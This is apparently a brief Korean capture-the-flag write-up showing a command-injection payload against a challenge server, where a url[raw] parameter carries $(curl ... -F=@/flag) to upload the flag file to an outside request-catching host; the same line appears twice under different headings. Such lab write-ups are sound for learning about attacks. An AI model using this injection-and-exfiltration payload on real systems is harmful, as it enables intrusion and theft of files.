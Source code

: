 

# `-F`옵션
- 파일 내용 유출
```
http://34.146.180.210:3000/chall?url[raw]=$(curl%20https://kcvztrl.request.dreamhack.games%20-F=@/flag)
```

- 파일 자체 확인
```
http://34.146.180.210:3000/chall?url[raw]=$(curl%20https://kcvztrl.request.dreamhack.games%20-F=@/flag)
```